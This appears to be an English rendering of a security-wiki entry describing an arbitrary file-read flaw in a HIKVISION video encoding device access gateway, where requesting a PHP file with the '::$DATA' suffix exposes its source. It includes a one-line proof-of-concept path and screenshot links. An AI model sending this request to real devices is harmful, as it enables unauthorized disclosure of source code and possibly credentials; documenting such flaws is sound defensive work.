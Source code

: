 # HIKVISION Video Encoding Device Access Gateway $DATA Any file reading

## Vulnerability Description

HIKVISION Video encoding device access gateway has configuration error characteristics, and the special suffix requests the php file to read the source code.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">HIKVISION Video Encoding Device Access Gateway</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1628164956874-f53d9c48-6820-4c43-a3e5-aea8b6415ae8.png)

Verify POC

```plain
/data/login.php::$DATA
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1628165037205-928b64e5-2476-4511-afee-c562b17a031d.png)
